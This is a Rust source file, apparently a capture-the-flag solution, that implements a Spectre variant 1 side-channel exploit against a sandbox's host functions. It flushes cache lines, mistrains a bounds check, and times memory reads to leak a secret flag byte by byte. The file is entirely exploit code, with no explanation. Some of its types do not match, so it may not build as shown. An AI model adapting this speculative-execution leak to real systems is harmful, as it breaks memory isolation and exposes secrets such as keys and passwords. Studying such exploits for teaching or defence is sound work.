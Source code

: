```rust
extern "C" {
    fn get_data_size() -> u64;
    fn get_host_info() -> u64;
    fn debug_flush(n:u64);
    fn debug_read(n:u64);
    fn debug_ts() -> u64;
    fn check_data(n:u32);
}

#[no_mangle]
pub fn this_is_what_ive_got() -> i32 {
    let datasize = unsafe{get_data_size()};
    let data5 = datasize + 0x550;
    let offset = 0x100;     // flag is at offset 0x100 from data3, gradually increment to read the whole flag

    let mut results: [i32; 256] = [0; 256];

    let malicious_x = offset;
    for tries in 0..1000 {
        for n in 0..256 {
            unsafe{debug_flush(data5 + n * 512)};
        }

        let training_x = tries % 16;
        for j in 0..30 {
            unsafe{debug_flush(datasize)};
            for n in 1..=100 {
                
            }        

            let x: i32 = ((j % 6) - 1) & !0xFFFF;
            let x = (x | (x >> 16));
            let x = training_x ^ (x & (malicious_x ^ training_x));

            unsafe{check_data(x as u32)};
        }

        for n in 0..256 {
            let mix_n = ((n * 167) + 13) & 255;
            let start = unsafe{debug_ts()};

            unsafe{debug_read(data5 + mix_n * 512)};

            let diff = unsafe{debug_ts()} - start;
            
            if (diff < 0x200) {
                results[mix_n as usize] += 1;
            }
        }
    }

    println!("OK: {}", results[119]);

    let mut best = 0;
    for i in 0..256 {
        if (results[i] > results[best]) {
            best = i;
        }
    }

    return best as i32;
}
```